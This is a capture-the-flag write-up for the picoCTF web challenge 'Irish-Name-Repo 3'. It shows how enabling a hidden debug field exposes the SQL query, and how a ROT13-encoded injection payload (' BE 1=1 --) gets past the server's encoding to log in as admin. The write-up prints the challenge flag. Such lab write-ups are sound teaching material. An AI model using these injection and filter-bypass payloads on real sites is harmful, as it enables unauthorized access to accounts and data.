 # PicoCTF - Irish-Name-Repo 3 (Web exploitation)

## Description
There is a secure website running at https://jupiter.challenges.picoctf.org/problem/54253/ (link) or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!

## Provided
None

## Initial Attempts

### 1. Trying admin login
Initially, I went to the admin login page where the password input is located. I tried simple inputs such as `123` and `admin`. However, the output was always:
   ```bash
   Login failed.
   ```
   So I knew the form was working, but I could not tell how my input was being used.

### 2. Finding debug line
   While I was carefully looking at `login.html`, I found this line:
   ```bash
   <input type="hidden" name="debug" value="0">
   ```
   This seems to be a debugging mode with value set to `0`. I tried:
   ```bash
    <input type="hidden" name="debug" value="1">
   ```
   and submitted `123` as the password. The output was:
   ```bash
   password: 123
    SQL query: SELECT * FROM admin where password = '123'
    Login failed.
   ```
   This revealed exactly how my input was being used inside the SQL query.

### 3. Attempting SQL Injection
   With debug output enabled, I realized this was likely an SQL injection challenge. I tried the classic payload:
   ```bash
   ` OR 1=1 --
   ```
   This should generate:
   ```bash
   SELECT * FROM admin where password = '' OR 1=1 --'
   ```
   This query would normally return all rows since 1=1 is always true.
   ```bash
   password: ' OR 1=1 --
    SQL query: SELECT * FROM admin where password = '' BE 1=1 --'
   ```
  At this moment I had no idea why it failed. Later I noticed that the server was replacing the keyword OR with BE, which is a form of input filtering. Because of this, my injection attempt did not work as intended.

## Solution (after reading the write-up)

1. Understanding the encoding
   Since the query was modifying the password input before execution, I needed to identify what type of encoding was being
   applied.
   I used dcode.fr cipher identifier with the suspicious part:
   ```bash
      Be 1=1 --
   ```
   I received:
   ```bash
   _Warning_ The text has a **short length**, this can affect the quantity and reliability of the results
   ```
   So I tried longer phrase:
   ```bash
   Hi Im Akira from Japan and I love sushi.
   ```
   output:
   ```bash
   password:  Hi Im Akira from Japan and I love sushi.
   SQL query: SELECT * FROM admin where password = ' Uv Vz Nxven sebz Wncna naq V ybir fhfuv.'
   ```
   then I used decode.fr cipher identifier and The tool returned ROT13 as the most likely candidate. To confirm it, I decoded    `Uv Vz Nxven sebz Wncna naq V ybir fhfuv`, and the tool gave me exactly same sentence I put.
2. Exploitation
   Knowing that ROT13 was being used, I simply needed to encode my SQL injection payload with ROT13 before submitting it.
   Original payload:
   ```
   ' OR 1=1 --
   ```
   ROT13-encoded payload:
   ```
   ' BE 1=1 --
   ```
   when the serve applied ROT13 again, this was decoded back to:
   ```
   ' OR 1=1 --
   ```
   As a result, the final SQL query executed by the database was:
   ```
   SELECT * FROM admin WHERE password = '' OR 1=1 --'
   ```
   This condition is always true, so the query returned:
   ```
   password: ' BE 1=1 --
   SQL query: SELECT * FROM admin where password = '' OR 1=1 --'
   Logged in!
   Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}
   ```
## Flag
   ```
    picoCTF{3v3n_m0r3_SQL_7f5767f6}
   ```
## Key Idea

- Debug mode provided a clear view of how inputs were being embedded into SQL queries.

- The query was not “encrypted” but simply encoded with ROT13.

- When direct injection fails, always consider if input is being transformed (filtered, sanitized, or encoded).

- In this challenge, the key was to encode the SQL injection payload with ROT13 before sending it.

## Reference

https://mh4ck3r0n3.github.io/posts/2025/03/01/irish-name-repo-3/
